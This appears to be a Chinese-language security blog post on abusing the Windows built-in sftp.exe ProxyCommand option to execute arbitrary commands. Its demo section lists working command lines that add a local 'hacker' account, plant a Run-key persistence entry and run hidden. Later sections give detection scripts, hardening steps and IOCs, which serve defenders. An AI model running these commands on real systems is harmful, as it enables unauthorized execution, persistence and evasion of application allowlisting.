

SFTP.exe是Windows 10/11內建的SSH檔案傳輸客戶端  
他的**ProxyCommand選項**可以被濫用來執行任意系統命令，  
無需實際SSH連線

## 工具特性

* * *

*   **路徑**: `C:\Windows\System32\OpenSSH\sftp.exe`
*   **濫用點**: -o ProxyCommand參數執行命令
*   **優勢**: 內建工具繞過應用程式白名單

## 攻擊 Demo

* * *

### ProxyCommand執行任意程式

```powershell
sftp -o ProxyCommand="cmd /c calc.exe" localhost

sftp -o ProxyCommand="powershell Start-Process notepad" x

sftp -o ProxyCommand="cmd /c net user hacker Pass123! /add" 0

sftp -o ProxyCommand="rundll32 shell32,ShellExec_RunDLL calc" .

sftp -o ProxyCommand="cmd /c reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v X /d calc /f" a

@("calc","notepad","mspaint") | % {sftp -o ProxyCommand="cmd /c $_" x 2>$null}

Start-Process sftp -ArgumentList '-o','ProxyCommand="cmd /c calc"','x' -WindowStyle Hidden

```

**原理**：ProxyCommand原本是用來設定SSH代理，但sftp會直接執行指定的命令，主機名稱可為任意值



## 偵測方法

* * *

```powershell
# 監控 sftp.exe 執行
Get-Process sftp -EA 0 | ForEach {
    $conn = Get-NetTCPConnection -OwningProcess $_.Id -EA 0
    if($conn){
        echo "SFTP connection detected:"
        echo "    PID: $($_.Id)"
        echo "    Remote: $($conn.RemoteAddress):$($conn.RemotePort)"
    }
}

# 去看 SSH 的設定檔
if(Test-Path "$env:USERPROFILE\.ssh\"){
    Get-ChildItem "$env:USERPROFILE\.ssh\" | ForEach {
        echo "SSH config found: $($_.Name)"
    }
}

# 監控網路連線（Port 22）
Get-NetTCPConnection -RemotePort 22 -State Established | ForEach {
    $proc = Get-Process -Id $_.OwningProcess
    echo "SSH connection: $($proc.Name) -> $($_.RemoteAddress)"
}

```

## 防禦措施

* * *

```powershell
# 停用OpenSSH客戶端功能
Disable-WindowsOptionalFeature -Online -FeatureName OpenSSH.Client

# 封鎖sftp執行
$acl = Get-Acl "C:\Windows\System32\OpenSSH\sftp.exe"
$rule = New-Object System.Security.AccessControl.FileSystemAccessRule("Users","Execute","Deny")
$acl.SetAccessRule($rule)
Set-Acl "C:\Windows\System32\OpenSSH\sftp.exe" $acl

# 防火牆封鎖SSH連線
New-NetFirewallRule -DisplayName "Block SSH" -Direction Outbound `
    -Protocol TCP -RemotePort 22 -Action Block

```

## IOCs

* * *

*   sftp.exe進程執行
*   連線到Port 22
*   `%TEMP%`出現sftp批次檔
*   `.ssh`目錄被創建
*   大量檔案被讀取後出現sftp連線

## 總結

* * *

SFTP.exe提供了完美的加密資料外洩通道透過批次檔自動化，可快速竊取敏感資料或下載惡意payload，且流量全程加密

防禦關鍵：**監控Port 22連線****停用OpenSSH客戶端****檢查異常SFTP進程**